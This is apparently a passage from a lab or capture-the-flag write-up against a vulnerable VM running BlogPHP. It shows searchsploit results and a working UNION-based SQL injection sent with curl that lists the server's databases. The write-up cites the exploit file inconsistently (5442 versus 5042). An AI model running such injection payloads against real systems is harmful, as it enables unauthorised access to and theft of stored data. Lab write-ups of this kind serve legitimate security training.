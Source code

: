 With searchsploit I looked for known vulnerabilities for BlogPHP it is a simple blog script, includes features such as adding blogs, comments, upload files and more, it is also quite old so I found many vulnerabilities.

```console
root@kali:~$ searchsploit blogphp
----------------------------------------------------------------------------- -------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- -------------------------
BlogPHP 1.0 - 'index.php' SQL Injection                                      | php/webapps/27099.txt
BlogPHP 1.2 - Multiple SQL Injections                                        | php/webapps/27117.txt
BlogPHP 2 - 'id' Cross-Site Scripting / SQL Injection                        | php/webapps/5042.txt
BlogPHP 2.0 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/31774.txt
BlogPHP 2.0 - Persistent Cross-Site Scripting                                | php/webapps/17640.txt
BlogPHP 2.0 - Privilege Escalation / SQL Injection                           | php/webapps/5909.pl
----------------------------------------------------------------------------- -------------------------
```

## Exploitation
### SQL Injection

I focused in SQL Injection vulnerability, I copied the 5442.txt file to my current directory, and read the specifications to exploit it.

```console
root@kali:~$ searchsploit -m php/webapps/5042.txt
  Exploit: BlogPHP 2 - 'id' Cross-Site Scripting / SQL Injection
      URL: https://www.exploit-db.com/exploits/5042
     Path: /usr/share/exploitdb/exploits/php/webapps/5042.txt
File Type: Perl script text executable

Copied to: /root/breach2.1/5042.txt
```

The SQL statement to exploit that vulnerability doesn't work, so I proceeded to rebuild the SQL statement and finaly it works. 

**Listing databases**

On the blog database I didn't find anything, so I focused on **oscommerce** database this looks interesting.

```console
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,table_schema,3,4%20from%20information_schema.tables%20--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
information_schema 
blog 
mysql 
oscommerce 
performance_schema
```
